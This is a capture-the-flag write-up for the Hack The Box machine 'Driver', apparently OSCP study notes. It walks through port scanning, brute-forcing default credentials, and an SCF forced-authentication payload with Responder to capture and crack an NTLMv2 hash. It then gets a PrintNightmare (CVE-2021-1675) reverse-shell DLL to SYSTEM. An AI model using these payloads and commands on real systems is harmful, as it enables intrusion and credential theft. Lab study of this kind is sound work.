 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)
### Recon
```bash
nmap -p- -T4 10.10.11.106
nmap -sC -sV -p80,135,445 10.10.11.106
```
- Port [80](HTTP.md): IIS HTTP, basic auth prompt ("MFP Firmware Update Center")
- Port 135/[445](SMB): Typical Windows services
- `/etc/hosts` entry: `10.10.11.106 driver.htb`

### Web Brute-force
```bash
nmap -p80 --script http-brute 10.10.11.106
```
- **Found**: admin:admin
- Firmware upload page (printer model Ricoh)

### Forced Authentication (Responder Attack)
**SCF Payload**:
```ini
[Shell]
Command=2
IconFile=\\10.10.14.131\tools\nc.ico
[Taskbar]
Command=ToggleDesktop
```
- Upload `.scf` via firmware update
- Start Responder:
```bash
sudo responder -I tun0 -A
```
- Captured NTLMv2 hash for user `tony`

### Crack NTLMv2 with Hashcat
```bash
hashcat -m5600 captured-hashes.txt /usr/share/wordlists/rockyou.txt --force
```
- **Cracked**: `tony:liltony`

### Access with Evil-WinRM
```bash
evil-winrm -i 10.10.11.106 -u 'DRIVER\\tony' -p 'liltony'
```
- Retrieved `user.txt`

### Enumeration for Privilege Escalation
```powershell
schtasks /query /fo LIST /v > lst.txt
```
- Found job: `C:\Users\tony\appdata\local\job\job.bat`
```bat
@echo off
:LOOP
%SystemRoot%\explorer.exe "C:\firmwares"
ping -n 20 127.0.0.1 > nul && powershell -ep bypass c:\users\tony\appdata\local\job\quit.ps1
DEL /q C:\firmwares\*
cls
GOTO :LOOP
```
- `quit.ps1` closes file explorer window if folder is open

### PrintNightmare Exploit (CVE-2021-1675)
```bash
git clone https://github.com/cube0x0/CVE-2021-1675
cd CVE-2021-1675
```
- Generate reverse shell DLL:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.216 LPORT=4444 -f dll > shell-x64.dll
```
- Configure and start Samba:
```ini
[smb]
    path = /tmp
    guest ok = yes
    read only = no
    browsable = yes
```
```bash
cp shell-x64.dll /tmp/
sudo service smbd start
```
- Patch impacket:
```bash
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 setup.py install
```
- Run exploit:
```bash
python3 CVE-2021-1675.py DRIVER/tony:liltony@10.10.11.106 \\10.10.14.216\smb\shell-x64.dll
```
- **Catch shell**:
```bash
nc -nvlp 4444
```

### Privilege Escalation
```bash
whoami
# nt authority\system
cat C:\Users\Administrator\Desktop\root.txt
```

### Summary
- Initial foothold through default creds on printer firmware page
- Forced authentication with `.scf` file to capture NTLM hash
- Used Evil-WinRM with cracked creds
- Privilege escalation using PrintNightmare exploit
- Full SYSTEM access achieved